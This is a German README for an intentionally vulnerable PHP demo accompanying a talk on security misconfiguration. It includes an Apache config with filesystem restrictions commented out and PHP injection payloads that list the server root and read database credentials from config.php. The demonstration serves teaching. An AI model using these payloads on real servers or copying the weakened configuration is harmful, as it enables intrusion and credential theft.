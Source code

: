 # ITS2023 Security Misconfiguration Demonstration

Dieses Projekt dient als Demonstrationsbeispiel für unseren Vortrag über `Security Misconfiguration`.

>*WICHTIG:* Dieses Projekt sollte `NIEMALS` ausserhalb einer geschützten Umgebung ausgeführt werden!!!

# Dateiübersicht

```Text
.                                       Apache2 Webroot /var/www/html
├── README.md
├── docker-compose.yml                  Docker-Compose Datei
|
├── config.php                          Zugangsdaten für z.b. MYSQL DB
├── mysite                              Root der demo Webseite
│   ├── execute.php                     PHP Script welches anfällig für PHP Injection ist
│   └── index.html                      Einstiegspunkt der Webseite
|
└── test-httpd.conf                     Apache Konfiguration
```

## httpd.conf

```conf
<VirtualHost *:80>
    DocumentRoot /var/www/html

    <Directory /var/www/html>
        Options Indexes FollowSymLinks          # erlaubt indexing durch webserver
        # php_admin_value open_basedir /var/www/html    # Limitiert PHP Dateisystemzugriffe auf webroot
        # php_admin_value doc_root /            # Updated PHP Dateisystem root
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

```

## docker-compose.yml

```yml
version: '3.1'

services:
  php:
    image: php:apache
    volumes:
      - ./:/var/www/html/
      - ./test-httpd.conf:/etc/apache2/sites-available/000-default.conf
    restart: unless-stopped
```

# Getting started

Im Projektverzeichnise 
> `docker-compose up -d`  

ausführen.


Webseite findet sich unter [http://localhost/mysite](http://localhost/mysite)

# PHP Injection Beispiele

## PHP Script Arbeitsverzeichnis ausgeben
```PHP
echo getcwd();
```
## Dateien im Sever Dateisystem Root ausgeben

### Simple
```PHP
$files = scandir('/'); $output = implode("\n", $files); echo $output;
```

### Tree
```PHP
function list_directory($directory, $level = 0, $prefix = '') {
    $files = scandir($directory);

    // Filter out the '.' and '..' entries
    $files = array_filter($files, function ($file) {
        return $file != '.' && $file != '..';
    });

    $count = count($files);

    foreach ($files as $i => $file) {
        $isLast = $i === $count - 1;

        // Prepare the prefix for child nodes
        $childPrefix = $prefix . ($isLast ? '    ' : '│   ');

        // Display the tree branch
        echo $prefix . ($isLast ? '└── ' : '├── ') . $file;

        $path = $directory . '/' . $file;

        // Display file details similar to 'ls -la'
        $info = new SplFileInfo($path);
        $type = $info->getType();
        $permissions = substr(sprintf('%o', $info->getPerms()), -4);
        $size = $info->getSize();
        $modified = date('Y-m-d H:i:s', $info->getMTime());

        echo " ({$type}, permissions: {$permissions}, size: {$size} bytes, last modified: {$modified})<br>";

        // If the file is a directory, list its contents
        if (is_dir($path)) {
            list_directory($path, $level + 1, $childPrefix);
        }
    }
}

list_directory('/');
```

## Datenbankverbindungsinformationen auslesen

### Mit bekannten Variablennamen
```PHP
include '/var/www/html/config.php'; echo DB_HOST . "\n"; echo DB_USER . "\n"; echo DB_PASSWORD . "\n"; echo DB_NAME . "\n";
```

### Via fopen
```PHP
$filename = '../config.php';
$file = fopen($filename, 'r');
if ($file) {
    while (($line = fgets($file)) !== false) {
        echo htmlspecialchars($line);
    }
    fclose($file);
} else {
    echo 'Error opening file.';
}
```

## Wie verhindern?
- Dokumentation lesen / System verstehen
- Entwicklungsumgebung und Produktivumgebung trennen
- Immer nur das mindeste an Berechtigungen geben
- `Best practice` verwenden
- ...
